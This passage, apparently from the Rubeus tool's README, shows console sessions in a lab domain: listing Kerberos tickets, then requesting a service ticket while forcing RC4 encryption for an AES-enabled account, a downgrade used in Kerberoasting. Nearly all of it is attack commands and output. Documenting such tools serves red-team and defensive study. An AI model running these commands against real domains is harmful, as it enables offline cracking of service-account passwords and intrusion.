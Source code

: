 
    C:\Rubeus>Rubeus.exe klist

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: List Kerberos Tickets (Current User)

        [0] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/10/2019 6:44:43 PM ; 2/10/2019 11:44:09 PM ; 2/17/2019 6:44:09 PM
        Server Name       : cifs/primary.testlab.local @ TESTLAB.LOCAL
        Client Name       : dfm.a @ TESTLAB.LOCAL
        Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

        [1] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/10/2019 6:44:43 PM ; 2/10/2019 11:44:09 PM ; 2/17/2019 6:44:09 PM
        Server Name       : LDAP/primary.testlab.local @ TESTLAB.LOCAL
        Client Name       : dfm.a @ TESTLAB.LOCAL
        Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)


Requesting a service ticket for an AES-enabled service account, specifying that we _only_ support RC4_HMAC:

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip).../service:roast/me /enctype:rc4

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Requesting 'rc4_hmac' etype for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFrjCCBaqgAwIBBaEDA...(snip)...
